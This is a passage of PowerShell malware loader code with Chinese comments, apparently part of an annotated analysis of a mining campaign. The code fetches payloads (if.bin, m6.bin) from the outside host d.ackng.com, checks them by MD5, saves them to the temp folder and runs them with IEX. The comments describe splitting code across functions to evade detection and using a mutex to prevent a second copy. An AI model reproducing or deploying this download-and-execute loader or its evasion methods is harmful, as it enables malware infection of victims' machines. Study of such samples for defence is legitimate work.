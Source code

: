 ```powershell
#         };
#     return $s
# }
# # 是否存在if.bin，存在则读取，并进行MD5校验
# if(test-path $ifp){
#     $con_=[System.IO.File]::ReadAllBytes($ifp);
#     $md5_=gmd5 $con_;
#     if($md5_-eq$ifmd5){
#         $noup=1
#     }
# }
# # 若没有通过MD5,或文件不存在则下载
# if(!$noup){
#     # http://d.ackng.com/if.bin?
#     $con=(New-Object Net.WebClient)."downloaddata"($down_url+'/if.bin?');
#     $t=gmd5 $con;
#     if($t-eq$ifmd5){
#         [System.IO.File]::WriteAllBytes($ifp,$con)
#     }else{$noup=1}
# }
# if($noup){
#     $con=$con_;
#     $ifmd5=$md5_
# }
# # 这里有个小细节，若机器上没有if.bin且下载的if.bin没有通过MD5校验的则不会执行其包含的命令
# IEX(-join[char[]]$con)
if($localIf){
	stp ((gcf $code1 $ifmd5 $ifbin)+'IEX(-join[char[]]$con)"')
}

# 用多函数拼接生成语句，逃避检测
# 针对64位系统
if($is64){
	# try{
	# 	$localMn=$flase;
	# 	New-Object Threading.Mutex($true,'Global\eLocalMn',[ref]$localMn)
	# }catch{}
	$code2=gcode "Mn"
	IEx $code2
	if($localMn){
		# $ifmd5='5b2849ff2e8c335dcc60fd2155b2d4d3';
		# $ifp=$env:tmp+'\m6.bin';
		# $down_url='http://d.ackng.com';
		# function gmd5($con){
		# 	[System.Security.Cryptography.MD5]::Create().ComputeHash($con)|foreach{
		# 		$s+=$_.ToString('X2')};
		# 	return $s
		# }

		# if(test-path $ifp){
		# 	$con_=[System.IO.File]::ReadAllBytes($ifp);
		# 	$md5_=gmd5 $con_;
		# 	if($md5_-eq$ifmd5){
		# 		$noup=1
		# 	}
		# }
		# if(!$noup) {
		# 	# http://d.ackng.com/m6.bin?
		# 	$con=(New-Object Net.WebClient)."downloaddata"($down_url+'/m6.bin?');
		# 	$t=gmd5 $con;
		# 	if($t-eq$ifmd5){
		# 		[System.IO.File]::WriteAllBytes($ifp,$con)
		# 	}
```